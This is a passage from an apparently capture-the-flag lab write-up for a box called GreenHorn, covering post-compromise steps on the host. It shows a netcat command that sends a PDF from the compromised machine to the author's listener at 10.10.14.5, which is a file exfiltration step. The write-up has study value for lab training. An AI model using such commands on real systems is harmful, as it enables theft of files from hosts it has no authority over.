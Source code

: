 user.txt

```bash
c5e0f6759...
```

I had a look in the current directory, which showed there was `Using OpenVAS.pdf`

```bash
junior@greenhorn:~$ ls
user.txt  'Using OpenVAS.pdf'
```

I figured there was something worth while in the `Using OpenVAS.pdf` file, so I copied it using nc using the following command

```bash
junior@greenhorn:~$ ls
user.txt  'Using OpenVAS.pdf'
junior@greenhorn:~$ nc 10.10.14.5 1337 < 'Using OpenVAS.pdf'
```

and on my attacking machine I set up a listener:

```bash
$ nc -lvp 1337 > 'Using OpenVAS.pdf'
-rw-r--r--. 1 kad kad 61367 Aug 17 11:36 'Using OpenVAS.pdf'
```

Opening the `Using OpenVAS.pdf` showed there was a pixelated password

![img](/assets/img/GreenHorn/12.webp)
